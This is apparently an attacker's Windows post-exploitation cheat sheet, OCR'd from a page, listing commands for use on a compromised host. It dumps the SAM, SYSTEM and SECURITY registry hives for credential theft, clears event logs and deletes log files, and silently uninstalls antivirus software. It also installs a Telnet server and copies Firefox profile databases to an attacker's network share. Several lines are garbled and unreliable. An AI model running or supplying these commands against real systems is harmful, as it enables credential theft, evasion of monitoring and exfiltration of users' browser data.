 wmic /node:"hostname" bios get serialnumber (this can be great for finding warranty info about target)
Reg Command exit

#### reg

reg save HKLM\Security security.hive  (Save security hive to a file)

reg save HKLM\System system.hive (Save system hive to a file)

reg save HKLM\SAM sam.hive (Save sam to a file)

reg import [FileName ]

wevtutil el  (list logs)

wevtutil cl *LogName* (Clear specific lowbadming)

```
del %WINDIR%\*.log /a /s /q /f
```

#### Uninstalling Software “AntiVirus” (Non interactive)

wmic product get name /value (this gets software names)

wmic product where name="XXX" call uninstall /nointeractive (this uninstalls software)

#### Other  (to be sorted)

pkgmgr usefull  /iu :”Package”

pkgmgr usefull  /iu :”TelnetServer” (Install Telnet Service ...)

pkgmgr /iu:”TelnetClient” (Client )

rundll32.exe user32.dll, LockWorkStation (locks the screen -invasive-)

#### wscript.exe *script js/vbs*

#### cscript.exe *script js/vbs/c#*

#### xcopy /C /S %appdata%\Mozilla\Firefox\Profiles\*.sqlite \\your_box\firefox_funstuff

#### OS SPECIFICwmicWin2k3

winpop stat domainname


#### Vista/7

winstat features

wbadmin get status

wbadmin get items

gpresult /H gpols.htm

bcdedit /export *filename*
